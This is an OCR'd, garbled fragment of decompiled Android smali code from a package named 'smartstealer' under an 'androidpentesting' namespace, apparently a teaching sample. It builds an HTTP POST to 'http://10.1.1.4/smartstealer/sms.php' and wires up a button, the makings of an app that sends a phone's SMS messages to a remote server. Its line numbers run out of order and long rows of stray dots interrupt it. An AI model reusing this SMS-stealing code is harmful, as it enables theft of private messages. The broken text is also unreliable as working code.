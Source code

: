 .field btn:Landroid/widget/Button;

.field sms:Ljava/lang/String;

.
.
.
.
.
.
.
.
.
.
.
.
.
.
.
.

    .line 71
    .local v2, "httpClient":Lorg/apache/http/impl/client/DefaultHttpClient;
    new-instance v5, Lorg/apache/http/client/methods/HttpPost;

    move-object v9, v5

    move-object v5, v9

    move-object v6, v9

    const-string v7, "http://10.1.1.4/smartstealer/sms.php"

    invoke-virtual {v3, v4}, Lcom/androidpentesting/smartstealer/MainActivity;->findViewById(I)Landroid/view/View;

    move-result-object v3

    check-cast v3, Landroid/widget/Button;

    iput-object v3, v2, Lcom/androidpentesting/smartstealer/MainActivity;->btn:Landroid/widget/Button;

    .line 33
    move-object v2, v0

    iget-object v2, v2, Lcom/androidpentesting/smartstealer/MainActivity;->btn:Landroid/widget/Button;

    new-instance v3, Lcom/androidpentesting/smartstealer/MainActivity$1;

    move-object v6, v3

    move-object v3, v6

    move-object v4, v6

    move-object v5, v0

    invoke-direct {v4, v5}, Lcom/androidpentesting/smartstealer/MainActivity$1;-><init>(Lcom/androidpentesting/smartstealer/MainActivity;)V

